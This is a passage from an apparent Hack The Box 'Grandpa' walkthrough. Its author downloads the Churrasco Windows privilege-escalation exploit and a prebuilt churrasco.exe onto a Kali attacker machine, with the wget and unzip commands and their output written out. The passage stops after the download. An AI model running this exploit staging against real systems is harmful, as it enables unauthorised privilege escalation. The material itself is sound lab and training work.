 A backup link is here: [https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/6705.zip](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/6705.zip)

Let's download this file to our attacker machine.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa]
└─$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/6705.zip
--2023-04-20 21:42:21--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/6705.zip
Resolving gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
Connecting to gitlab.com (gitlab.com)|172.65.251.78|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16744 (16K) [application/octet-stream]
Saving to: ‘6705.zip’

6705.zip                     100%[==============================================>]  16.35K  --.-KB/s    in 0.001s  

2023-04-20 21:42:22 (14.1 MB/s) - ‘6705.zip’ saved [16744/16744]

```
Now let's extract the archive.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa]
└─$ unzip 6705.zip 
Archive:  6705.zip
  inflating: Churrasco/Churrasco.cpp  
  inflating: Churrasco/Churrasco.ncb  
  inflating: Churrasco/Churrasco.sln  
  inflating: Churrasco/Churrasco.suo  
  inflating: Churrasco/Churrasco.vcproj  
  inflating: Churrasco/ReadMe.txt    
  inflating: Churrasco/stdafx.cpp    
  inflating: Churrasco/stdafx.h 
```
Okay, to get a executable, we have to compile the source or we can search on Google for Churrasco.exe on Github. Since I don't have a Windows machine available to compile source I choos eto search for a [executable on Github](https://www.google.com/search?q=churrasco.exe+).

The first results looks promissing, let's see if we can download the executable.
```
https://github.com/Re4son/Churrasco
```

Now let's copy the link to the executable and download it to our Kali machine.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe 
--2023-04-20 22:05:54--  https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/Re4son/Churrasco/master/churrasco.exe [following]
--2023-04-20 22:05:54--  https://raw.githubusercontent.com/Re4son/Churrasco/master/churrasco.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31232 (30K) [application/octet-stream]
Saving to: ‘churrasco.exe’

churrasco.exe                100%[==============================================>]  30.50K  --.-KB/s    in 0.001s  

```